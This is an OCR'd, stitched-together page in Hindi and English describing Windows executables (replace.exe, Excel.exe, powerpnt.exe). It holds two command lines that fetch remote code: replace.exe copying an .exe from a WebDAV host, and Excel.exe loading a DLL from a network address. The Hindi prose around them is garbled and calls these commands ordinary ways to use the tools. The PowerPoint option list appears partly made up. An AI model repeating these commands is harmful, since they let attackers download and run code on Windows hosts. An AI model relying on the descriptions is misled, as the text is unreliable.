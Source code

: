 यह टूल Windows पर एक फ़ाइल को दूसरी फ़ाइल के साथ बदलने के लिए उपयोग किया जाता है। यह एक प्रभावी तरीका है जिससे आप किसी भी फ़ाइल को दूसरी फ़ाइल के साथ बदल सकते हैं, जैसे कि एक एक्सएक्सएक्स फ़ाइल को एक जीपीजी फ़ाइल के साथ बदलना।

उपयोग:
```
बदलें.exe <विद्यमान_फ़ाइल> <नई_फ़ाइल>
```

उदाहरण:
```
बदलें.exe विद्यमान.exe नई.exe
```

यह टूल बहुत सावधानीपूर्वक उपयोग करना चाहिए, क्योंकि इससे आपके सिस्टम में अद्यतित फ़ाइलों की गुणवत्ता प्रभावित हो सकती है। इसलिए, इसे केवल अधिकृत और विश्वसनीय संसाधनों पर उपयोग करें।
```
replace.exe \\webdav.host.com\foo\bar.exe c:\outdir /A
```
# एक्सेल.exe

यह एक्सेल.exe फ़ाइल है। यह माइक्रोसॉफ्ट एक्सेल सॉफ़्टवेयर का एक भाग है जिसका उपयोग डेटा एन्ट्री, विश्लेषण और प्रबंधन के लिए किया जाता है। यह फ़ाइल एक्सेल सॉफ़्टवेयर को चलाने के लिए उपयोग की जाती है।

यदि आप इस फ़ाइल को चलाना चाहते हैं, तो आपको इसे डबल-क्लिक करना होगा या एक कमांड प्रोंप्ट के माध्यम से चलाना होगा। इसके बाद आप एक्सेल सॉफ़्टवेयर के सभी फ़ंक्शन का उपयोग कर सकते हैं।

ध्यान दें कि यह फ़ाइल केवल विंडोज प्लेटफ़ॉर्म पर काम करेगी। इसे अन्य प्लेटफ़ॉर्मों पर चलाने के लिए आपको अन्य संस्करण का उपयोग करना होगा।
```
Excel.exe http://192.168.1.10/TeamsAddinLoader.dll
```
## Powerpnt.exe

Powerpnt.exe is the executable file for Microsoft PowerPoint, a popular presentation software. It is commonly found on Windows operating systems and is used to create, edit, and view PowerPoint presentations.

### Usage

To launch PowerPoint using powerpnt.exe, open the command prompt and type:

```
powerpnt.exe
```

This will open the PowerPoint application, allowing you to create or open a presentation.

### Command Line Options

Powerpnt.exe supports various command line options that can be used to perform specific tasks. Here are some commonly used options:

- `/S`: Starts PowerPoint in slideshow mode.
- `/P <filename>`: Prints the specified presentation.
- `/N`: Starts PowerPoint without opening a new presentation.
- `/F <filename>`: Opens the specified presentation in full-screen mode.
- `/M <macro>`: Runs the specified macro when PowerPoint starts.
- `/PT <printername>`: Prints the presentation to the specified printer.
